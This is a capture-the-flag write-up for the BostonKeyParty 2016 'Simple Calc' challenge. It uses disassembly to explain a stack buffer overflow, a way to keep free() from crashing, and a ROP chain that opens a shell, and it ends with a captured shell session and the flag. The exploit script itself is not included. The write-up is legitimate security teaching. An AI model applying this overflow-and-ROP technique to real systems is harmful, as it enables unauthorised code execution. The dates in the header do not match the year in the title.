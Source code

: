 
## BostonKeyParty CTF 2016 - Simple Calc (Pwn 5pt)
##### 04/03 - 06/03/2015 (48hr)
___
### Description: 
what a nice little calculator!

simplecalc.bostonkey.party 5400
___
### Solution

This was a pretty easy challenge. The binary was a simple calculator (+, -, *, /). At the beginning,
program asks for the expected number of calculations:
```assembly
.text:00000000004013E9         lea     rax, [rbp+ncalc_14]
.text:00000000004013ED         mov     rsi, rax
.text:00000000004013F0         mov     edi, offset aD  ; "%d"
.text:00000000004013F5         mov     eax, 0
.text:00000000004013FA         call    __isoc99_scanf
.text:00000000004013FF         mov     eax, 0
.text:0000000000401404         call    handle_newline
.text:0000000000401409         mov     eax, [rbp+ncalc_14]
.text:000000000040140C         cmp     eax, 0FFh
.text:0000000000401411         jg      short WRONG_NCALC_40141B
.text:0000000000401413         mov     eax, [rbp+ncalc_14]
.text:0000000000401416         cmp     eax, 3
.text:0000000000401419         jg      short NCALC_OK_40142F
.text:000000000040141B
.text:000000000040141B WRONG_NCALC_40141B:             ; CODE XREF: main+8Ej
.text:000000000040141B         mov     edi, offset aInvalidNumber_ ; "Invalid number."
.text:0000000000401420         call    puts
.text:0000000000401425         mov     eax, 0
.text:000000000040142A         jmp     locret_401588
.text:000000000040142F ; ---------------------------------------------------------------------------
.text:000000000040142F
.text:000000000040142F NCALC_OK_40142F:                ; CODE XREF: main+96j
.text:000000000040142F         mov     eax, [rbp+ncalc_14]
.text:0000000000401432         shl     eax, 2          ; allocate 4 bytes for each calculation
.text:0000000000401435         cdqe
.text:0000000000401437         mov     rdi, rax
.text:000000000040143A         call    malloc
```
Then we allocate some memory big enough to hold the results (4 byte per results). We're allowed to
make from 3 to 255 calculations.

The vulnerability, was fairly easy to find and exploit:
```assembly
.text:0000000000401529         cmp     eax, 5
.text:000000000040152C         jnz     short INVALID_OPT_40155D
.text:000000000040152E         mov     eax, [rbp+ncalc_14]
.text:0000000000401531         shl     eax, 2
.text:0000000000401534         movsxd  rdx, eax
.text:0000000000401537         mov     rcx, [rbp+ptr_10]
.text:000000000040153B         lea     rax, [rbp+vuln_buf_40]
.text:000000000040153F         mov     rsi, rcx
.text:0000000000401542         mov     rdi, rax
.text:0000000000401545         call    memcpy          ; overflow: vuln_buf is small
.text:000000000040154A         mov     rax, [rbp+ptr_10]
.text:000000000040154E         mov     rdi, rax
.text:0000000000401551         call    free            ; pointer must be NULL to avoid crash ;)
.text:0000000000401556         mov     eax, 0
.text:000000000040155B         jmp     short locret_401588
```
Upon exit, we copy the results to a very small buffer:
```assembly
	.text:0000000000401383 vuln_buf_40     = byte ptr -40h
	.text:0000000000401383 option_18       = dword ptr -18h
	.text:0000000000401383 ncalc_14        = dword ptr -14h
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
Thus it's very easy to overflow the buffer and overwrite return address and get control of rip.
We have total control of the contents of the buffer, as they're the results of the caclulations,
which we control their arguments.

However there's a problem: Except the rip, we also overwrite rbp+ptr_10, which is the pointer
that holds the results in the heap. If this value is not a valid entry address of a heap buffer,
free() will crash. The first idea is to set it to NULL, so if there's a check for NULL pointer 
as input at the beginning of free(), we'll immediately return. Fortunately this is true:
```assembly
.text:00000000004156D0         public free ; weak
.text:00000000004156D0 free            proc near               ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                         ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0         mov     rax, cs:__free_hook
.text:00000000004156D7         test    rax, rax
.text:00000000004156DA         jnz     loc_41579A
.text:00000000004156E0         test    rdi, rdi
.text:00000000004156E3         jz      locret_415798
```
As you can see, rdi (1st argument), is checked if it's 0 (NULL) and if so, free() returns. Thus,
we can overwrite ptr with zeros and then directly overwrite rip.

However, for any type of calculation, input numbers must be >0x27 (unsigned):
```assembly
.text:00000000004010E0         mov     eax, cs:add_1_6C4A80
.text:00000000004010E6         cmp     eax, 27h        ; number must be >= 50
.text:00000000004010E9         jbe     short TOO_SMALL_4010F6
.text:00000000004010EB         mov     eax, cs:add_2_6C4A84
.text:00000000004010F1         cmp     eax, 27h
.text:00000000004010F4         ja      short NUMS_OK_40110A 
```
In order to have a result of 0, we have to give as input num1=X and num2=X and do a subtraction. 
We need this because addresses are 8 bytes long and the 4-MSB must be NULL. Because DEP is
enabled, we need to ROP. Fortunately for us, binary is statically linked, so there are many
gadgets available. A /bin/sh shell is enough, so we can find our gadgets using ROPgadget.py.

The exploit is simple: fill buffer with zeros, overwrite rip with the address of the 1st gadgets,
add fill the rest of the stack with the ROP exploit. See the python code, for the complete attack.
The flag is **BKPCTF{what_is_2015_minus_7547}**.

```
root@xrysa:~/ctf/bostonkeyparty# ./simple_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit
	.=> ls -la
		total 1188
		drwxr-xr-x 2 calc calc   4096 Mar  4 05:23 .
		drwxr-xr-x 3 root root   4096 Mar  4 05:04 ..
		-rw-r--r-- 1 calc calc    220 Mar  4 05:04 .bash_logout
		-rw-r--r-- 1 calc calc   3637 Mar  4 05:04 .bashrc
		-rw-r--r-- 1 calc calc    675 Mar  4 05:04 .profile
		-rw-r--r-- 1 root root     32 Mar  4 05:23 key
		-rwxr-xr-x 1 root root     80 Mar  4 05:14 run.sh
		-rwxrwxr-x 1 calc calc 882266 Mar  4 05:04 simpleCalc
		-rw-r--r-- 1 root root 302348 Feb  1  2014 socat_1.7.2.3-1_amd64.deb
	whoami
		nobody
	cat key
		BKPCTF{what_is_2015_minus_7547}
	exit
	*** Connection closed by remote host ***
	```
___